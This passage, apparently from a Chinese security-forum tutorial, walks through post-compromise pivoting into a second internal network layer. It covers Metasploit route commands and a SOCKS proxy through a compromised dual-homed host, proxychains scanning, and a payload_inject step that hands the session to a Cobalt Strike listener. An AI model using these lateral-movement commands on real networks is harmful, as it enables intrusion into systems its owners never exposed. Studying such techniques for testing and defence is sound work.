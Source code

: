 这里还是顺着一层网络的三个问题继续展开，首先是第一点，在二层网络的情况下是否有公网ip已经不重要了，因为是否有公网ip只影响我们内网入口的那台主机的连接方式，这里我们已经进入内网了，这个问题就没有意义了，第二点同一层网络，主要说说第三点

在测试与实战的过程中，我发现最稳定的是venom和frp，其他的要么容易断线，要么进行扫描的时候很慢，在二层网络的情况下，我用得最多的还是msf，因为msf添加路由这个功能实在是太香了，无论你有几层都直接添加路由配合socks代理带出来即可，cs这方面就差一点

这里主要演示一下在二层网络中使用msf，这里假设我已经拿到了192.168.2.189这台主机的shell(这里假设我的kali为公网ip，就已经是一层网络)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7acbfce6da5d77749bc55945aad5fc90aa7ce08e.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7acbfce6da5d77749bc55945aad5fc90aa7ce08e.png)

然后nmap进行扫描得到一个同网段双网卡主机ip为192.168.2.122/10.10.1.129通过漏洞上线到msf(这里就不具体说漏洞的利用了，主要是说下二层网络代理的利用)

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7781f4caf7a27f37021f31b8ba70506bfde0ebac.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-7781f4caf7a27f37021f31b8ba70506bfde0ebac.png)

这时候我们拿到了一台双网卡主机，通向10.10.1.0/24段

这里首先添加路由，拿到的这个双网卡session为4

```php
route add 10.10.1.0 255.255.255.0 4
route print

use auxiliary/server/socks_proxy
set version 4a
run
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3724c73204ea96326abf2b9f970a371abfd301c6.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-3724c73204ea96326abf2b9f970a371abfd301c6.png)

然后使用proxychain配合nmap扫描出另外一个处于10.10.1.0/24网段主机的ip为10.10.1.128，可以通过ipc空连接向其传输文件。这时候我们如果直接使用msf生成的木马去上线是不行的，因为10.10.1.0/24这个网段里面的主机可能处于不出网环境下，是访问不到公网ip的，这时候就需要进行流量转发

这个地方两层网络的流量就是从10.10.1.0 -&gt; 192.168.2.0-&gt;公网ip，通过10.10.1.129主机当作跳板，把所有经过这台主机的流量全部转到kali上面去

这里为了方便执行windows命令，首先msf给cs派生一个对话

```php
use exploit/windows/local/payload_inject
set lhost 192.168.2.161
set lport 5555
set sessions 4
run
```

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b463566f76c4b537fb5347df1c27a890e2ef51cb.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-b463566f76c4b537fb5347df1c27a890e2ef51cb.png)

cs打开一个监听端口

[![](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-593f7f7eb3b9b6e367a623dbe45c9a7daf3e60d7.png)](https://shs3.b.qianxin.com/attack_forum/2021/09/attach-593f7f7eb3b9b6e367a623dbe45c9a7daf3e60d7.png)
